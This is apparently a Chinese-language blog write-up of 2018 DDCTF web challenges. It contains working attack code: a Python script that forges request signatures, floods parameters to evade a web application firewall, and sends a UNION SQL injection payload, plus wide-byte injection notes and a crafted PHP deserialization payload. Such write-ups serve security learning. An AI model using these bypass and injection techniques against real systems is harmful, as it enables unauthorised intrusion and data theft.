 ```yaml
---
title: 2018DDCTF writeup
url: 324.html
id: 324
categories:
  - CTF
date: 2018-04-23 08:55:54
tags:
---
```


# 前言

DDCTF实在被虐的有点惨，中途就放弃了（逃……） 
只能赛后复现一下，不间断更新。。  

# 数据库的秘密

进入第一步是一个ip验证 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/c0a87245327ee93d7c8c1c21197afb14.png) 
用firefox的插件，添加一个x-forwarded-for 的header就行 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/5b30d8240a7b8cd83c41e4de5b88bc96.png) 
进入之后是个简单的查询功能 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/43948467fe3bc1e665827a31c9bf563a.png) 
任意查询之后发送给一个包，发现多了一个author参数 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/c0d4e8a8260a893bc5af2a195f1b52f3.png) 
回到html页面，发现的确有这个隐藏的form值 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/a8dae9a6a2ec2271dd54afa74fb42991.png) 
经过一些尝试之后发现如下几点 
1、其他的非隐藏值都有被过滤，无法进行注入。但是对author进行`admin'#` 和`admin' and 1#`测试是发现存在注入 
2、有安全狗拦截 
3、不能进行任意发包，会对sig和time参数进行校验 接下来就是把关注点转移到被隐藏的author字段中，并绕过安全狗和前端校验 

前端校验的代码主要在两个js文件中 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/c61c5742e3b6ae49ed7b71ee2832b38a.png) 
math.js中主要是一些给main.js用的函数库，主要来看下main.js 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/4393d7fd936e2fda851a771d184d9904.png) 
进行了js混淆，在网上找个在线的就可以还原，还原代码如下
```php
    function signGenerate(obj, key) {
    	var str0 = '';
    	for (i in obj) {
    		if (i != 'sign') {
    			str1 = '';
    			str1 = i + '=' + obj[i];
    			str0 += str1
    		}
    	}
    	return hex_math_enc(str0 + key)
    };
    var obj = {
    	id: '',
    	title: '',
    	author: '',
    	date: '',
    	time: parseInt(new Date().getTime() / 1000)
    };
    
    function submitt() {
    	obj['id'] = document.getElementById('id').value;
    	obj['title'] = document.getElementById('title').value;
    	obj['author'] = document.getElementById('author').value;
    	obj['date'] = document.getElementById('date').value;
    	var sign = signGenerate(obj, key);
    	document.getElementById('queryForm').action = "index.php?sig=" + sign + "&time=" + obj.time;
    	document.getElementById('queryForm').submit()
    }
```
看到是对传递的参数进行加密，生成sign和time后再进行发送 这里要调用一个python的execjs库，来调用JavaScript代码，生成sign和time值（不得不说一句，python是有点强） 对main.js函数改造一下，返回获取sign和time值的函数
```javascript
    function get_sig(id,title,author,date) {
     obj['id'] = id;
     obj['title'] = title;
     obj['author'] = author;
     obj['date'] = date;
     var sign = signGenerate(obj, key);
     return sign;
    }
    function get_time(){
     return obj.time;
    }
```
还有一点就是，绕过安全狗 
参照大佬的一招——参数溢出 https://github.com/Bypass007/vuln/blob/master/OpenResty/OpenResty%20uri参数溢出漏洞.md 
大致意思就是说传递的参数过多时，会放弃对后面参数的检测 最后，python发包的代码如下的
```python
    #encoding=utf8
    import execjs, requests
    
    _id = ""
    title =""
    author = "admin' union select (select column_name from information_schema.columns where table_name='ctf_key7' limit 0,1),(select secvalue from ctf_key7 limit 0,1),(database()),(select table_name from information_schema.tables where table_schema='ddctf' limit 0,1),5 #"
    date = ""
    
    with open("test.js","r") as f:
    	js = f.read()
    
    func = execjs.compile(js)
    
    headers = {"X-Forwarded-For":"123.232.23.245"}
    
    data = {
    	'UBD':'rS',
    	'sgh':'N5',
    	'ytV':'52',
    	'htx':'s6',
             ……（省略一百个）
    	'3Em':'Og',
    	'xZO':'cJ',
    	'ceX':'OF',
    	'eTu':'an',
    	'5pc':'b6',
    	
    	'id' : _id,
    	'title' : title,
    	'author' : author,
    	'date' : date
    }
    sig = func.call('get_sig',_id,title,author,date)
    time = func.call('get_time')
    url = "http://116.85.43.88:8080/EHZTYREPPGMCQLNB/dfe3ia/index.php?sig={}&time={}".format(sig,time)
    r = requests.post(url,data=data,headers=headers)
    with open("dd.html","w+",encoding='utf8') as f:
    	f.write(r.text)
    print("ok")
```
调用js文件，生成对应的sign和time，然后发送对应的数据包，将返回的页面保存到本地html中，便于观察，此处直接用union注入就行 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/96880c7df2d643a2e21fb423cc76703c.png)    

# 专属链接

java才刚开始学语法，里面一些加密算法实在有些看不懂，先占个位……  

# 注入的奥妙

进去是一个简单的查询功能，题目都说了注入了，先试下注入 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/e3861fd6a104024602b3722a4ef3f57b.png) 
发现被转义，提示页面编码设置 查看源码发现一个奇怪的注释链接，进去之后是一个编码表的链接 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/71b1e517cf4e55713ed70e60f0c98849.png) 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/914ab831359c25aa053496c7f7508604.png) 
emm，应该是宽字节注入 挑一个5c结尾的字符（%5c转义后为 \\），就可以成功闭合转义单引号前面的反斜杠 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/811927a704ac2945f5c9a27e355cbf78.png) 
接下来就可以进行注入了，union被过滤双写即可 
重点在一个route_rules的表中 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/5646e40b98333efc3566b9818128a8b5.png) 
先下载`static/bootstrap/css/backup.css`这个文件，改成.zip后缀解压即可得到备份文件 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/37750051bee93efaf40547758fb7c21d.png) 
然后就是一波辛酸的代码审计（路由配置有点迷。。） 
Test.php中有个很明显的反序列化漏洞 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/1a26f75d027371fb9776e53454ca54e4.png) 
触发反序列化的类在Justtry.php中 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/0deaf1177229345c2b71640e6a8e44d9.png) 
主要还是路由配置。这里就不多分析了 
主要是dispath调用checkurl传递参数给param数组，然后调用invoke函数进行对应类下对应函数的调用 
这里主要就是justtry.try函数，在数据库的路由配置中也明显能看出 
接下来就是构造反序列化的对象 
test类中的uuid即为自己的uuid，fl是一个Flag对象，Flag对象中需要一个SQL对象才能调用对应的sql语句输出flag，构造代码如下
```php
    <?php
    	Class Test{
    	}
    	Class Flag{
    	}
    	Class SQL{
            }
    
    $t = new Test() ;
    $t->user_uuid = "5d71b644-ee63-4b11-9c13-da3c4ac35b8d";  //自己的uuid
    $t->fl = new Flag();
    $t->fl->sql = new SQL();
    
    echo serialize($t);

O:4:"Test":2:{s:9:"user_uuid";s:36:"5d71b644-ee63-4b11-9c13-da3c4ac35b8d";s:2:"fl";O:4:"Flag":1:{s:3:"sql";O:3:"SQL":0:{}}}
```
但是反序列化函数中做了一点点小小的限定 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/a573d641f508ade2a931fee7bb71a6d0.png) 
做一点小小的改动
```
O:17:"Index\Helper\Test":2:{s:9:"user_uuid";s:36:"5d71b644-ee63-4b11-9c13-da3c4ac35b8d";s:2:"fl";O:17:"Index\Helper\Flag":1:{s:3:"sql";O:16:"Index\Helper\SQL":0:{}}}
```
在justtry/try页面中post改数据即可 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/0473786c474654fc71e5dbced65b712f.png)